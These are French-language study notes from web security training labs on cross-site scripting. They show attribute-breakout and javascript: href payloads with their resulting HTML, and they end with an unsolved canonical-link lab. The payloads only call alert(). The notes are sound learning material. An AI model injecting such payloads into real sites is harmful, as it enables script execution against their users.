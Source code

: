 On rentre "userinput" pour voir ou il est utilisé dans le code

```
<h1>0 search results for 'userinput'</h1>
```
Vue le titre est le context du challenge on image qu'il y aura rien au niveau du h1 (puisqu'il veulent nous faire travailler sur les attributes).

En revanche ici :
```
<input type=text placeholder='Search the blog...' name=search value="userinput">
```
on devrait pouvoir manipuler l'attribut value.

`" onmouseover="alert('XSS') x="` <-- ça fonctionne !!! YIPIIIIEEEE

```
<input type=text placeholder='Search the blog...' name=search value="" onmouseover="alert('XSS') x="">
```

*Le x="" sert juste à fermer le " initial de value.*

### Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

Dans la section comment quand on rentre un lien pour référencer notre website on voit que notre input est traité comme ceci : (userinput3)
```
<a id="author" href="userinput3>userinput2</a>
```

Nous pouvons utiliser le pseudo-protocole `javascript` pour exécuter le script directement dans le href :
```
javascript:alert(document.domain)
```

```
<a id="author" href="javascript:alert(document.domain)">toto</a>
```

### Lab: Reflected XSS in canonical link tag
Un lien canonical permet de signaler au moteur de recherche comme google la page d'origine. Une page web peut être accessible à ces URL différentes :
    - `https://example.com/page`
    - `https://example.com/page?ref=promo`
    - `https://example.com/page/index.html`

Sans lien canonical, Google pourrait considérer ces trois URL comme trois pages distinctes avec du contenu dupliqué (ça améliore le SEO).

`<link rel="canonical" href="https://example.com/page">`

```
<a id="author" href="https://userinput3.com">
```

Pas compris ce qu'il fallait faire pour celui là. Je réessayerais plus tard.
